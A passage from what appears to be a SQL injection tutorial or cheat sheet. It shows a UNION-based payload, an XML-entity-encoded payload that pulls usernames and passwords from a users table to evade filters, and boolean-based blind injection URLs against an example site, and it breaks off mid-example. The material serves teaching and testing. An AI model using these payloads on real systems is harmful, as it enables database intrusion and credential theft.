 Used UNION with custom query or SQL functions into those NUMBERS.

```sql
' UNION SELECT 1,user(),3,4,5,6,7--+
```

Filter Bypass with XML Encoding

```xml
payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#124;&#124;&#39;&#58;&#39;&#124;&#124;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;'
```

#### Blind Injection

> An Attacker query are accepted but no response is received in the web application.

Types of Blind Injection

Boolean-Based Injection:

> An attacker queries responses are either TRUE or FALSE.

Example:

URL:

```
https://example.com/movies.php?id=1
```



Backend Query::

```sql
SELECT title FROM movies WHERE id = 1
```



Payload for FALSE:

```
https://example.com/movies.php?id=1 and 1 = 2
```



Backend Query for False

```sql
SELECT title FROM movies WHERE id = 1 and 1 = 2
```



Payload for TRUE

```sql
https://example.com/movies.php?id=1 and 1 = 1
```



Backend Query For TRUE
